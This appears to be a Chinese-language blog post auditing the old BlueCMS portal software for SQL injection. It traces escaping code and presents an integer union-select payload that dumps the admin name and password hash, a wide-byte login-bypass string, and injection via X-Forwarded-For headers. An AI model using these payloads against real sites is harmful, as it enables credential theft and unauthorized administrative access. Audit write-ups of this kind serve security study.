


概述 很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。
SQL注入分析 首先关注一下数据的输入
全局数据转义 在common.inc.php中
1 2 3 4 5 6 7 if(!get_magic_quotes_gpc()) { $_POST = deep_addslashes($_POST); $_GET = deep_addslashes($_GET); $_COOKIES = deep_addslashes($_COOKIES); $_REQUEST = deep_addslashes($_REQUEST); }
再跟进一下deep_addslashes
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 function deep_addslashes($str) { if(is_array($str)) { foreach($str as $key=>$val) { $str[$key] = deep_addslashes($val); } } else { $str = addslashes($str); } return $str; }
可以发现对数据的注入，进行了加斜杠转义的操作。那么接下来找注入思路主要有以下3点：
找整数型注入
整套cms默认gb2312编码，容易造成宽字节注入
http头并不在转义的范围内，所以类似存入ip，reffer的位置也能发生注入
整数型注入 拿grep匹配了一下$_GET，找到一处不做其他过滤的整数型位置
1 ./ad_js.php:$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
跟进ad_js.php
1 2 3 4 5 6 7 8 $ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : ''; if(empty($ad_id)) { echo 'Error!'; exit(); } $ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
getone函数
1 2 3 4 5 function getone($sql, $type=MYSQL_ASSOC){ $query = $this->query($sql,$this->linkid); $row = mysql_fetch_array($query, $type); return $row; }
可以看到这里对ad_id没有做其他过滤处理，造成了整数型注入,由于后面会将ad_content打印在页面上，所以直接用union注入就可以获得数据，构造payload
1 /ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,concat(admin_name,0x23,pwd)%20from%20blue_admin%20limit%201
结果可以在返回的界面中看到
1 2 3 <!-- document.write("admin#21232f297a57a5a743894a0e4a801fc3"); -->
ps:因为该cms错误回显具体sql语句，表前缀可以通过报错的方法把表前缀爆出来。
宽字节注入 bluecms操作数据库的具体类定义在mysql.class.php,默认连接时的编码为gbk，我们可以知道当数据库连接时的编码为gbk等双字节编码时，容易发生宽字节注入。前面提到该套cms对数据输入进行了转义的操作，那么刚刚好条件都齐了，必然存在宽字节注入。grep看了一下，基本上的字符串都只是做了转义处理，所以字符串数据输入点都存在宽字节注入。大多数注入都是盲注，没找到具体可以会显数据的地方，这里就简单看一下登陆处
后台登录处 其实前台user.php，也存在注入，只是盲注，这里就取简单的后台登录验证处
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 elseif($act == 'do_login'){ $admin_name = isset($_POST['admin_name']) ? trim($_POST['admin_name']) : ''; $admin_pwd = isset($_POST['admin_pwd']) ? trim($_POST['admin_pwd']) : ''; $remember = isset($_POST) ? intval($_POST['rememberme']) : 0; if($admin_name == ''){ showmsg('xxx'); } if($admin_pwd == ''){ showmsg('xxx'); } if(check_admin($admin_name, $admin_pwd)){ update_admin_info($admin_name); if($remember == 1){ setcookie('Blue[admin_id]', $_SESSION['admin_id'], time()+86400); setcookie('Blue[admin_name]', $admin_name, time()+86400); setcookie('Blue[admin_pwd]', md5(md5($admin_pwd).$_CFG['cookie_hash']), time()+86400); } }else{ showmsg('xxx'); } showmsg('xxx', 'index.php'); }
继续跟进check_admin
1 2 3 4 5 6 7 8 9 10 11 12 13 function check_admin($name, $pwd) { global $db; $row = $db->getone("SELECT COUNT(*) AS num FROM ".table('admin')." WHERE admin_name='$name' and pwd = md5('$pwd')"); if($row['num'] > 0) { return true; } else { return false; } }
可以看到这里发生了一次登陆验证，可以通过宽字节注入来做万能密码登陆。
1 user_name=admin%65%27+or+1%3D1%23&pwd=123

存入ip造成注入 在common.inc.php中可以找到getip()函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 function getip() { if (getenv('HTTP_CLIENT_IP')) { $ip = getenv('HTTP_CLIENT_IP'); } elseif (getenv('HTTP_X_FORWARDED_FOR')) { $ip = getenv('HTTP_X_FORWARDED_FOR'); } elseif (getenv('HTTP_X_FORWARDED')) { $ip = getenv('HTTP_X_FORWARDED'); } elseif (getenv('HTTP_FORWARDED_FOR')) { $ip = getenv('HTTP_FORWARDED_FOR'); } elseif (getenv('HTTP_FORWARDED')) { $ip = getenv('HTTP_FORWARDED'); } else { $ip = $_SERVER['REMOTE_ADDR']; } return $ip; }
再看看调用他的位置
online_ip调用处
看看guest_book.php处存在insert注入，并且可以通过覆盖后面的content，造成数据回显。通过xff传入注入语句或者client ip传入。

其他位置的注入，不能回显，就不分析了。
总结 总体来说，直接可以grep到$_GET、$_POST、$_REQUEST的cms，审计起来会比较轻松。可以先从入口看起，将common,config等文件看一遍，再查找危险函数，数据入口就可审计出几个漏洞来。bluecms暂时审计到这一步，主要找的是SQL注入的漏洞。其他漏洞打算准备另外一套cms来审计:)